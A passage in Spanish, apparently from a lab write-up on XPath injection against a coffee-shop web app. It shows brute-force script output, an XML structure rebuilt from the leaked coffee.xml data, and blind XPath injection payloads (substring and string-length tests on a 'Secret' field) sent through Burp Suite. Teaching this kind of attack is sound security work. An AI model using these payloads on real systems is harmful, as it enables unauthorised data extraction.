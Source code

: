 Resultado:

```bash
[+] Fuerza bruta: Ataque de fuerza bruta concluido
[+] Data: ID:Name:Desc:Price:Secret
```

---

**Data:** con la información extraída del último script y la que ya teníamos en el navegador, podemos seguir rellenando nuestro archivo Data

```xml
<Coffees>
	<Coffee></Coffee>
		<ID>1</ID>
		<Name>Affogato</Name>
		<Desc>An affogato (Italian, "drowned") is a coffee-based beverage. It usually takes the form of a scoop of vanilla gelato or ice cream topped with a shot of hot espresso. Some variations also include a shot of Amaretto or other liqueur.</Desc>
		<Price></Price>
		<Secret></Secret>
	<Coffee></Coffee>
		<ID>2</ID>
		<Name>Americano</Name>
		<Desc>An Americano is an espresso-based drink designed to resemble coffee brewed in a drip filter, considered popular in the United States of America. This drink consists of a single or double-shot of espresso combined with up to four or five ounces of hot water in a two-demitasse cup.</Desc>
		<Price></Price>
	<Coffee></Coffee>
		<Etiqueta></Etiqueta> x4
	<Coffee></Coffee>
		x10
</Coffees>
```

Como podemos buscar hasta 10 tipos de café, toda la estructura xml que estamos montando cobra bastante sentido. Por cada número que ponemos podemos ir añadiendo información como el nombre, el ID y la descripción a nuestro archivo *Data* que representa al archivo *coffee.xml* que hay por detrás de este servidor y que estamos vulnerando con inyecciones XPath

![Captura](./Imágenes/web_5.png)

---

Ahora para ejemplificar un reto final. Vamos a tratar de extraer la información de la etiqueta 'Secret'. Con el siguiente payload podemos confirmar la existencia de la cadena de texto de la etiqueta `' and substring(Secret,1,1)='E` 

![Captura](./Imágenes/burpsuite_17.png)

Este payload confirma la longitud `' and string-length(Secret)='18`

![Captura](./Imágenes/burpsuite_18.png)
